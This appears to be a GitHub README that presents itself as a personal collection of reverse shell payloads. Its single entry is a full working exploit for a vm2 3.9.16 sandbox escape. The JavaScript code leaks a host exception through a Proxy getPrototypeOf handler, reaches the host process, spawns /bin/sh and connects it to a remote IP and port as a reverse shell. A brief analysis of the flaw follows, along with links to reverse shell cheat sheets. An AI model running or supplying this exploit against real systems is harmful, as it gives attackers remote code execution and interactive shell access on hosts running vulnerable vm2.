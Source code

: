 # Custom Reverse Shells for Specific Scenarios
A collection of payloads [I've used in the past]

# Reverse Shell Methods
# Node.js
Sandbox Escape in vm2@3.9.16 [https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244 , https://github.com/advisories/GHSA-xj72-wvfv-8985]
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
(function(){
        var net = c.constructor('return process')().mainModule.require('net'),
            cp = c.constructor('return process')().mainModule.require('child_process'),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        var IP = "10.10.14.97";
        client.connect(8888, IP, function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /0/;
    })();
}
`

console.log(vm.run(code));
```

### Analysis

As host exceptions may leak host objects into the sandbox, code is preprocessed with transformer() in order to instrument the code with handleException() sanitizer function calls. For CatchClause with ObjectPattern the code calls handleException() and then re-throws the sanitized exception inside a nested try-catch. (lib/transformer.js:121) handleException() function is an alias of thisEnsureThis(), which in turn calls thisReflectGetPrototypeOf(other) (again, an alias of Reflect.getPrototypeOf()) to access the object's prototype (lib/bridge.js:835). However, this may be proxied through a getPrototypeOf() proxy handler which can by itself throw an unsanitized host exception, resulting in the outer catch statement receiving it.
An attacker may use any method to raise a non-proxied host exception (test/vm.js:1082 for example) inside a getPrototypeOf() proxy handler, register it to an object and throw it to leak host exception, and finally use it to access host Function, escaping the sandbox.

### Impact
Remote Code Execution, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.



## References
* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
